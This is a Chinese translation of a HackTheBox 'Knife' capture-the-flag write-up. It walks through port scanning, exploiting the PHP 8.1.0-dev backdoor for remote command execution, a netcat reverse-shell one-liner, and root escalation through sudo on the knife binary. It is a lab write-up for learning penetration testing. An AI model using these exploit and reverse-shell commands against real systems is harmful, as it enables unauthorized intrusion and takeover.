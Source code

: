# 黑客盒子报道:刀

> 原文：<https://infosecwriteups.com/hackthebox-writeup-knife-2a3dd526d11d?source=collection_archive---------0----------------------->

![](img/157113ddea14c6db27eccf646753044e.png)

这是一个由易到难的 Linux 盒子，要求攻击者仔细列举一个网站以获得立足点，并利用二进制文件将权限提升到 root。

# 列举

我开始通过用 **NMAP** 执行快速扫描来枚举目标机器，以识别任何打开的端口:

```
nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.10.242PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

扫描发现三个端口打开(即端口 22 和 80)。接下来，我使用 NMAP 来识别每个端口上运行的服务，并使用通用 NSE 脚本来查找我可以利用的任何常见漏洞:

```
nmap -sV -sC -Pn -v -p 22,80 -oN nmap-report 10.10.10.242PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

我可以看到一个网站被托管在端口 80 上，所以我决定移动并检查该网站。

# HTTP —端口 80 分析

导航到托管在端口 80 上的网站，我看到了以下网页。

![](img/fbef68015c9079b3891e20a0a0eb24d0.png)

托管在端口 80 上的网站

我花了一些时间来列举网站和模糊任何隐藏的目录或文件，但我没有看到任何感兴趣的东西。我继续使用 BurpSuite 来拦截网络请求，并在服务器的响应中看到了一个有趣的标题:

```
HTTP/1.1 200 OK
Date: Wed, 09 Jun 2021 19:01:03 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev     # Interesting!
Vary: Accept-Encoding
Content-Length: 5815
Connection: close
Content-Type: text/html; charset=UTF-8
```

我可以看到应用程序通过非标准的 **X-Powered-By** 头公开信息。标题称该网站由 **PHP/8.1.0-dev** 提供支持。

> **X-Powered-By** 是一个常见的非标准 HTTP 响应头(大多数以‘X-’为前缀的头是非标准的)。默认情况下，它通常包含在通过特定脚本技术构建的响应中。值得注意的是，它可以被服务器禁用和/或操纵。一些服务器选择不包含它，甚至提供误导性信息来摆脱可能针对特定技术/版本的黑客。

在谷歌上快速搜索 **PHP/8.1.0-dev** 后，我发现了一个后门远程命令注入 python 漏洞脚本:

 [## PHP 8 . 1 . 0-开发后门远程命令注入

### PHP 8 . 1 . 0-开发后门远程命令注入作者理查德·琼斯 PHP 版本 8 . 1 . 0-开发后门…

packetstormsecurity.com](https://packetstormsecurity.com/files/162749/php_8.1.0-dev.py.txt) 

我下载了漏洞并如下运行，这很有效！

```
$ python3 backdoor.py -u [http://10.10.10.242/](http://10.10.10.242/) -c ls
[+] Results:
bin
boot
cdrom
dev
etc
...etc...
```

接下来，我使用漏洞脚本在目标机器上创建一个反向 shell:

```
# kali machine listener
nc -lvnp 4444python3 backdoor.py -u [http://10.10.10.242/](http://10.10.10.242/) -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f"# stabilize shell
python3 -c 'import pty; pty.spawn("/bin/bash")'james@knife:/$
```

我可以看到我以用户 James 的身份登录，并且能够检索用户标志:

```
james@knife:~$ cat user.txt8cd2efcec990......
```

# 权限提升

我可以看到在 James home 目录中有一个有趣的文件叫做 **shell.rb** ，它包含以下代码:

```
system(‘/bin/bash’)
```

我开始寻找将我的权限提升到 root 的方法，并发现用户 James 可以使用 sudo 作为 root 运行一个名为 **knife** 的二进制文件:

```
$ sudo -lUser james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

我决定检查**刀**的命令选项，我可以看到有一个使用二进制文件执行文件的选项:

```
$ sudo knife help** EXEC COMMANDS **
knife exec [SCRIPT] (options)
```

我用 sudo 作为 root 运行这个命令，并使用 shell.rb 文件获得一个具有 root 权限的新 shell。然后，我检索了根标志:

```
james@knife:~$ sudo knife exec shell.rbroot@knife:/home/james# cat /root/root.txtb77e375181e32f.........
```

# 最后的想法

我很高兴使用这台机器，并发现它是初学者学习重要概念的好方法，例如检查网络请求/响应头和使用自定义漏洞。谢谢你一直读到最后，祝你黑客快乐😄！